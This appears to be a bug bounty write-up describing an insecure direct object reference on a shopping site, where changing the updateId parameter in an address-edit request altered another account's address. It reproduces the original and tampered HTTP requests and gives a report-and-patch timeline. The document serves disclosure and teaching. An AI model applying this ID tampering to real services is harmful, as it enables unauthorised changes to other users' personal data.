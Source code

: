 ```yaml
---
layout: post
title: How I was able to update any user's address
---
```

It was the same program as [How I bypassed OTP mechanism used for updating Sensitive Information](https://vj0shii.github.io/bypass-otp-mechanism-on-updating-sensitive-information/)

There was a Address book section inside the application where the user can add a number of addresses for the product delivery<!--more-->, whenever a user adds a new address to his/her account there is a id alloted to that which was in simple numeric format, when a user updates the address, the id is sent with the request and the address is updated, `updateid` parameter in below request

**Address Update Request**

```
POST /customer/EditAddress/ HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 288
Connection: close
Cookie: --COOKIES--

csrf_token=--CSRFTOKEN--&updateId=1234567&submit_address=Save+Address&postcode=560025&firstname=Overtake&lastname=nk&mobile=1223456789&street=ZmtzbnZhag%3D%3D&street1=fjkwbjkwb&landmark=jbkjb&city=Bengaluru&region=Karnataka&country_id=IN
```

## Where is the problem in this flow

The problem occurs when the address is just updated on the basis of the ID number which can be tampered from client side, the application was not validating that if the user has access to update the address with that ID and trusts the user input and updates it

## Exploitation

I created two test accounts test1 & test2, let's say the address_id for user test1 is 1111111 & for user test2 it is 2222222, go to the address book in test1 account, clicked on edit button, filled the update form and clicked on Save then intercepted the request with burp suite

**Original Request**

```
POST /customer/EditAddress/ HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 288
Connection: close
Cookie: --COOKIES--

csrf_token=--CSRFTOKEN--&updateId=1111111&submit_address=Save+Address&postcode=123456&firstname=Overtake&lastname=Test&mobile=1223456789&street=Test&street1=Test&landmark=jbkjb&city=Test&region=Test&country_id=IN
```

I tampered the request and changed the  `updateid` parameter value to 2222222

**Modified Request**

```
POST /customer/EditAddress/ HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 288
Connection: close
Cookie: --COOKIES--

csrf_token=--CSRFTOKEN--&updateId=222222&submit_address=Save+Address&postcode=123456&firstname=Overtake&lastname=Test&mobile=1223456789&street=Test&street1=Test&landmark=jbkjb&city=Test&region=Test&country_id=IN
```

Then check the address in test2 Address book, the address of test2 account is updated

The bug was reported to the team and patched successfully

**Time Frame**

Initial Report: 26-May-2020

First Response: 27-May-2020

Patch Released: 2-June-2020
